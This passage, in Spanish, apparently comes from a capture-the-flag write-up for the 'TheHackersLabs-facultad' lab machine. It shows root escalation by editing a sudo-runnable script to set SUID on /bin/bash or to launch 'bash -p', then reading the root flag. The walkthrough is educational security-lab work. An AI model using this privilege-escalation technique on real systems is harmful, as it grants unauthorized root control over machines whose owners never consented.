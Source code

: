 Se me ocurren dos cosas:
* Darle **permisos SUID** a la **Bash**.
* Que ejecute la **Bash** con privilegios.

Primero, asignémosle **permisos SUID** a la **Bash**.

Antes de eso, revisa qué permisos tiene:
```bash
vivian@TheHackersLabs-facultad:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1265648 mar 29  2024 /bin/bash
```

Modifica el script y agrega la siguiente instrucción:
```bash
chmod u+s /bin/bash
```

Ejecuta el script con **sudo**:
```bash
vivian@TheHackersLabs-facultad:~$ sudo /opt/vivian/script.sh
sudo: unable to resolve host TheHackersLabs-facultad.thl: Nombre o servicio desconocido
Ejecutado como vivian para mis alumnos
```

Vuelve a revisar los permisos de la **Bash**:
```bash
vivian@TheHackersLabs-facultad:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1265648 mar 29  2024 /bin/bash
```

Ejecuta la **Bash** con privilegios:
```bash
vivian@TheHackersLabs-facultad:~$ bash -p
bash-5.2# whoami
root
```
Somos **Root**.

Ahora, en lugar de modificar los permisos de la **Bash**, simplemente indica que ejecute la **Bash** con privilegios con la siguiente instrucción:
```bash
bash -p
```

Y si volvemos a ejecutar el script con **sudo**, seremos **Root** otra vez:
```bash
vivian@TheHackersLabs-facultad:~$ sudo /opt/vivian/script.sh
sudo: unable to resolve host TheHackersLabs-facultad.thl: Nombre o servicio desconocido
root@TheHackersLabs-facultad:/home/vivian# whoami
root
```

Obtengamos la última flag:
```bash
root@TheHackersLabs-facultad:/home/vivian# cd /root
root@TheHackersLabs-facultad:~# ls
root.txt
root@TheHackersLabs-facultad:~# cat root.txt
...
```
Y con esto, terminamos la máquina.
